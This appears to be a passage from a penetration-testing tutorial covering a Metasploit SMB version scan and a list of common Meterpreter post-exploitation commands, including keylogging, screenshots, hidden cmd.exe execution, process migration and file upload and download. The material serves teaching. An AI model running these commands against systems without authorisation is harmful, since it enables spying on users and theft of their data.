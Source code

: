 ```bash
```

**Exercise: SMB Version Detection**

```bash
# Use SMB version scanner
use auxiliary/scanner/smb/smb_version

# Set target
set RHOSTS target_ip

# Run scanner
run

# Results show Windows version, SMB version
```

#### Meterpreter Basics

**Meterpreter:** Advanced payload providing post-exploitation shell.

**Key features:**
- Runs in memory (hard to detect)
- Encrypted communication
- Extensible with modules
- File system access
- Process manipulation
- Privilege escalation tools

**Common Meterpreter commands:**

```bash
# System information
sysinfo

# Current user
getuid

# Current privileges
getprivs

# List processes
ps

# Migrate to different process
migrate pid

# Screenshot
screenshot

# Keylogger
keyscan_start
keyscan_dump
keyscan_stop

# Upload file
upload /path/to/file C:\\destination\\

# Download file
download C:\\path\\to\\file /local/destination/

# Execute command
execute -f cmd.exe -i -H

# Shell access
shell
```